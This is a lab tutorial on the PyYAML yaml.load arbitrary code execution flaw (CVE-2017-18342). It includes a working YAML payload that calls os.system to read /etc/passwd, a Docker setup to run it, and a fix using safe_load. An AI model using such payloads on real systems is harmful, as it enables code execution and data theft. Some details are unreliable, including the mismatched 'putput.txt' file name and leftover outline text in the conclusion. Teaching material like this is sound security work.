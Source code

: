 **CVE-2017-18342**. 

**Objective of the material** 

This tutorial will help you to understand CVE vulnerabilities in detailed way, how to simulate the vulnerability and do advanced exploitation in safe environments. Then how to fix this vulnerability. 

**Description**  

In PyYAML before 5.1, the yaml.load() API could execute arbitrary code if used with untrusted data. The load() function has been deprecated in version 5.1 and the 'UnsafeLoader' has been introduced for backward compatibility with the function.

**What is PyYAML**  

PyYAML is a YAML parser and emitter for the Python programming language 

**Vulnerablity**  

Issue with yaml.load()

>Vulnerability: The yaml.load() function is used to parse YAML data.When yaml.load() parses a YAML file, it not only deserializes basic data types (like strings, lists, or dictionaries) but can also instantiate Python objects.

>Arbitrary Code Execution: If untrusted YAML data is passed to yaml.load(), it could cause Python objects or even functions to be instantiated or executed. This behavior leads to arbitrary code execution (RCE), where an attacker could craft a malicious YAML file that runs dangerous commands or code on the server or client, potentially taking full control of the system. 

**Prerequisites** 

Tools/Technologies Needed
Python  
PyYAML  
Docker (for containerization and easy setup) 

Basic Knowledge: 
Understanding YAML format. 
Knowledge of serialization and deserialization concepts. 
 

**Step 1: Create a Vulnerable Python Application**

Create a folder name CVE-2017-18342 and add a file named exploit.py containing the following code: 
 
    import yaml
 
    # Malicious YAML payload
    payload = """ 
    !!python/object/apply:os.system
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.load(payload, Loader=yaml.UnsafeLoader) 
    print("Exploit executed. Check output.txt for the result.") `
 
 
This code reads the contents of a sensitive file (/etc/passwd) and stores it in a file (output.txt). 
The yaml.load() function would execute the os.system call, which is very dangerous. 
If you notice, we use the UnsafeLoad function because for backward compatibility. The UnsafeLoader was introduced after version 5.1, allowing users to explicitly opt into the dangerous behavior of yaml.load().

**Step 2: Create Docker Environment** 

Create a docker-compose.yml file under CVE-2017-18342 to set up the environment with a vulnerable version of PyYAML:
 
    version: '3' 
    services: 
    pyyaml-vulnerable: 
    image: python:3.8-slim 
    container_name: pyyaml-vulnerable-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 exploit.py" 

**Step 3: Run the Vulnerable Application** 

Start the application by using Docker 
Start the docker application - this can be done from the docker desktop by turning it on or restarting. 
Go to CVE-2017-18342 folder in the terminal where all the above files are and run the following code. 
 
 
    docker-compose up –build 
 
**Step 4: Observe the Exploit**

After successfully running this vulnerability, you get a new output.txt file that contains user account information. 

you should see the output from the malicious YAML being executed, confirming the exploit: 

You successfully run vulnerabilities! 

**Step 5: Fixing the Vulnerability**

Create a file called safety.py which update the Code to use yaml.safe_load() 

    import yaml 
 
    # Malicious YAML payload 
    payload = """ 
    !!python/object/apply:os.system 
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.safe_load(payload) 
    print("Exploit executed. Check output.txt for the result.") 
 
By replaceing yaml.load() with yaml.safe_load(), which prevents arbitrary code execution by only allowing simple Python objects (like lists and dictionaries) to be loaded.  
 
**Step 6: Update Docker Environment to Test the Fix**

Update docker-compose.yml to test the fixed script. 
 
    version: '3' 
    services: 
    pyyaml-fixed: 
    image: python:3.8-slim 
    container_name: pyyaml-fixed-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 safety.py" 
 
**Step 7: Run the Fixed Application** 

Rebuild and restart the container with the fixed code 
 
Use docker-compose up --build in the terminal to build and run the environment with the corrected 
 
**Step 8: Verify the Fix** 

After running the application, the malicious YAML will no longer be executed:

Explanation: 

The error you're seeing confirms that safe_load() blocks the loading of the custom YAML tag !!python/object/apply:os.system. This is expected behavior when using safe_load() and shows that it is working as a security measure. 

By using yaml.safe_load(), the deserialization process is limited to basic types, and no arbitrary code execution is possible. The malicious YAML is treated as harmless data. 
 

**Step 9. Best Practices for Deserialization** 

Always use yaml.safe_load() when processing untrusted YAML input. 
Be cautious when deserializing data from unknown sources. Arbitrary code execution is a common deserialization vulnerability in many formats, including YAML, JSON, and XML. 
Upgrade dependencies like PyYAML regularly to ensure you are protected from known vulnerabilities. 
 

**Conclusion** 

Reiterate the importance of using safe_load() instead of load() when working with YAML data to avoid arbitrary code execution vulnerabilities. 
Emphasize that upgrading PyYAML to the latest secure version (5.4.1 or later) also helps prevent this vulnerability. 
Provide a reminder to test all dependencies for security vulnerabilities using tools like pip-audit or similar. 
 
**Additional Resources** 

PyYAML Documentation- https://pyyaml.org/wiki/PyYAMLDocumentation
CVE-2017-18342 Details- https://nvd.nist.gov/vuln/detail/CVE-2017-18342
Best Practices for Deserialization in Python- https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html , https://docs.python.org/3/library/pickle.html#restricting-globals 
 
